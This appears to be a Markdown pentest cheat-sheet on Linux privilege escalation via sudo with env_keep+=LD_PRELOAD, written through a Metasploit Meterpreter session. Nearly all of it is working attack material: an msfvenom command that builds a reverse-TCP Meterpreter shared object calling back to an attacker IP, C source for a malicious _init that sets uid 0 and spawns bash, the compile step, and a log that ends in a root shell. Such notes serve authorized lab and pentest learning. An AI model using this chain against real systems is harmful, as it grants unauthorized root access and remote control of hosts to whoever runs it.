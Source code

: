 # Metasploit

## 01 - Detect

```
meterpreter > execute -if sudo -a "-l"
Process 2673 created.
Channel 23 created.
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
..[omitted]..
```

## 02 - Exploit

```
meterpreter > mkdir exploit
Creating directory: exploit
```

### 2.1 - Generate a payload via `msfvenom`

TODO: Show the steps when using `LD_PRELOAD` for escalating privileges.

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=443 -f elf-so -o payload.so

meterpreter > upload payload.so exploit/
```

### 2.2 - Compile the payload

```
meterpreter > cd exploit/
meterpreter > edit payload.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
meterpreter > execute -if gcc -a "-fPIC -shared -o payload.so payload.c -nostartfiles"
Process 2698 created.
Channel 25 created.
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2710 created.
Channel 26 created.
cd exploit
user@debian:~/exploit$ sudo LD_PRELOAD=~/exploit/payload.so apache2
root@debian:/home/user# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# exit
exit
exit
apache2: bad user name ${APACHE_RUN_USER}
user@debian:~$ exit
exit
exit
```

## 03 - Cleanup

```
meterpreter > cd ..
meterpreter > rmdir exploit/
Removing directory: exploit/
```